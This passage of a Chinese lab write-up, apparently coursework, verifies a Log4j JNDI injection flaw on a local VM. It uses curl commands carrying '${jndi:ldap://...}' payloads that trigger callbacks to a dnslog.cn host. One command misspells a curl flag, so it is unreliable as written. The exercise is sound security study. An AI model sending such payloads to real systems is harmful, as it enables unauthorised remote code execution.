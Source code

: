 2. 在虚拟机中尝试发送 `POST` 请求，查看是否能够成功触发漏洞。很明显，没有成功。(图片和前面图片的端口不同是因为尝试了多次，但截了这一次的图)
    ```sh
    curl -X POST http://192.168.198.13:31388/hello -d 'payload="${jndi:ldap://v89v2i.dnslog.cn/ajdjd}"' 
    ```
   <div><img src="pic/6_尝试POST.png" width=100%></div>
   
   - 再看漏洞代码片段，与老师视频中不同，我们的漏洞代码中 `payload` 是通过 `GET` 请求传参的，而不是 `POST` 请求。但是使用 `GET` 请求 dnslog 网站没有 record。
   <div><img src="pic/7_漏洞中是GET.png" width=100%></div>

3. 将 `payload` 改为 `GET` 请求的方式，并使用 url 编码，成功发送请求。
   ```sh
   curl -G http://192.168.198.13:31388/hello --data-ulencode 'payload="${jndi:ldap://tq8lht.dnslog.cn}"'
   ```
   <div><img src="pic/8_验证漏洞可利用性.png" width=100%></div>

   - 同时查看 dnslog 网站，新增了两条记录，也就是说它解析了两次这个域名。成功验证漏洞可利用性。
   <div><img src="pic/8_dnslog记录的record.png" width=100%></div>